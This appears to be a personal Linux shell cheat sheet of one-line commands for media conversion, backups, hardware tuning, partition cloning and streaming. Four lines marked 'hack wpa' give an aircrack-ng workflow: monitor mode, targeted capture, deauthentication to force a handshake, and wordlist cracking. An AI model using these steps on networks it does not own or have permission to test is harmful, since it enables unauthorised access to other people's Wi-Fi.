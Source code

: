 unrar all archives in current folder   
$ for f in *.rar;do unrar e -o+ $f;done   

show folder size    
$ du -h --max-depth=1   

list folder by size    
$ ls -lSha /home/jason  

copy with progress bar and transferspeed display   
$ rsync -ah --progress source-file destination-file  

convert movie to xbox360 format   
$ ffmpeg -i "file.mkv" -vcodec libx264 -acodec ac3 -ab 160k "file.mp4"  

batch convert above   
$ for i in *.mkv;   do name=`echo $i | cut -d'.' -f1`;   echo $name;   ffmpeg -i "$i" "${name}.mp4" -vcodec libx264 -acodec ac3 -ab 160k; done  

monero daemon   
$ monerod --data-dir /mnt/cloud/monero  

import gpg key for aur packages   
$ gpg --receive-key keyid 

ethereum blockchain sync   
$ geth --syncmode "fast" 

show external ip   
$ curl ifconfig.me 

weather forecast   
$ curl wttr.in/Wilhelmshaven 

set gtk cursor global value for browsers   
$ gsettings set org.gnome.desktop.interface cursor-theme Adwaita 

compress files or folders   
$ tar -cvzf tarballname.tar.gz itemtocompress itemtocompress  

calculator   
$ bc -l  

switch command output language from native language to english   
$ export LC_ALL=C  

backup through ssh   
$ rsync -avz /source/folder/ user@remoteadress:/remote_folder  

unrar all archives in folder (autoverwrite enabled)   
$ find . -name "*.rar" -exec unrar x -o+ {} \; 

show cpu frequency   
$ cat /proc/cpuinfo | grep "MHz" & watch -n1 "cat /proc/cpuinfo | grep \"^[c]pu MHz\"" 

force cpu governor   
$ sudo cpupower frequency-set -g powersave or performance  

list available governors   
$ cat /sys/devices/system/cpu/cpu0/cpufreq/scaling_available_governors 

show network usage   
$ iftop  

create playlist   
$ ls -1 *.mp4 > playlist.m3u  

cut characters playlist example   
$ cut -c 50- playlist.m3u > newplaylist.m3u 

batch rename delete example   
$ for file in *text* ; do mv "$file" "`echo $file | sed 's/\text//'`" ; done  

batch rename simple   
$ rename 0000 000 file* 

output orphaned packages to file & run removal   
$ sudo pacman -Qqdt > .pkglist.txt & sudo pacman -R - < .pkglist.txt  

hack wpa   
$ airmon-ng start wlp2s0f0u4 & airodump wlp2s0f0u4mon  

hack wpa target network   
$ airodump-ng -c 10 --bssid 00:14:BF:E0:E8:D5 -w /root/aircrack/ wlp2s0f0u4mon  

force handshake   
$ aireplay-ng –0 2 –a [router bssid] –c [client bssid] wlp2s0f0u4mon  

crack with wordlist   
$ aircrack-ng -a2 -b [router bssid] -w [path to wordlist] /root/aircrack/*.cap  

get nvme temperature   
$ sudo nvme smart-log /dev/nvme0 | grep temperature  

delete all but given extension   
$ find . -type f ! -name '*.txt' -delete 

amd vega current values   
$ watch -n 0.5 sudo cat /sys/kernel/debug/dri/0/amdgpu_pm_info  

disable vsync environment variable   
$ vblank_mode=0 

current vega voltage values   
$ sudo cat /sys/class/drm/card0/device/pp_od_clk_voltage  

force high dpm on graphics card   
$ echo high > /sys/class/drm/card0/device/power_dpm_force_performance_level 

clone partition to image   
$ partclone.ext4 -c -s /dev/sda1 | gzip -c > image_sda1.pcl.gz

clone image to partition   
$ zcat image_sda1.pcl.gz | partclone.ext4 -r -o /dev/sda1

ungzip to image   
$ sudo cat ubuntu_server_2.pcl.gz | sudo gzip -d -c | sudo partclone.restore -C -s - -O partition.img

check image & resize   
$ sudo e2fsck -f partition.img & sudo resize2fs partition.img 

mount image to folder   
$ sudo mount -o loop -t ext4 partition.img /tmp/clone/

git   
$ vim text.md & git add text.md & git commit -m "description" & git push -u origin master

ssh download file   
$ scp user@remote_host:remote_file local_file 

ssh upload file   
$ scp local_file user@remote_host:remote_file

Gallium HUD example   
$ GALLIUM_HUD=simple,fps,temperature LD_PRELOAD=$LD_PRELOAD:/usr/\$LIB/libgamemodeauto.so %command%

show last boot log   
$ journalctl -b -12

play stream with vlc   
$ vlc "$(youtube-dl --get-url --format best 'https://www.youtube.com/watch?v=video_id')"

combine video files   
$ ffmpeg -i "concat:input1.mp4|input2.mp4|input3.mp4" -c copy output.mp4

switch between cpu govenors   
$ sudo cpupower frequency-set -g powersave / sudo cpupower frequency-set -g ondemand

force vega performance level   
$ echo manual > /sys/class/drm/card0/device/power_dpm_force_performance_level & echo 7 > /sys/class/drm/card0/device/pp_dpm_sclk

revert vega performance control   
$ echo auto > /sys/class/drm/card0/device/power_dpm_force_performance_level

copy multiple files from one type within subdirectories   
$ find -iname '*.mp3' -exec cp {} /home/sk/test2/ \;

enable root x applications in current wayland session   
$ xhost +SI:localuser:root

firefox,enable tab mouse scroll   
$ about:config, toolkit.tabbox.switchByScrolling true

firefox, disable theme sync   
$ about:config, services.sync.prefs.sync.lightweightThemes false

search files   
$ find /home/username/ -name "*.err"

monitor zustand einmalig setzen   
$ xset dpms force {standby|suspend|off|on}

read current huge pages value   
$ sudo sysctl -w vm.nr_hugepages=$(nproc) 

enable huge pages   
$ for i in $(find /sys/devices/system/node/node* -maxdepth 0 -type d);do    echo 3 > "$i/hugepages/hugepages-1048576kB/nr_hugepages";done

insert date /time and vim   
$ :r! date

query ETH price   
$ watch -tcn5  "curl -s https://api-pub.bitfinex.com/v2/ticker/tETHEUR | awk -F',' '{print \"ETH/EUR: €\" \$7}'"

set star citizen linux resource limit   
$ sudo sysctl -w vm.max_map_count=16777216

watch stream with hls & no cache   
$ streamlink -p mpv -a '--cache=no {filename}' --verbose-player --hls-live-edge 1 --hls-segment-threads 2 'url' 'quality'

generate 2fa code   
$ oathtool -b --totp 'xxxx xxxx xxxx xxxx'

query available streams with youtube-dl   
$ youtube-dl -F URL

stream audio only with mpv   
$  mpv --ytdl-format=251 URL
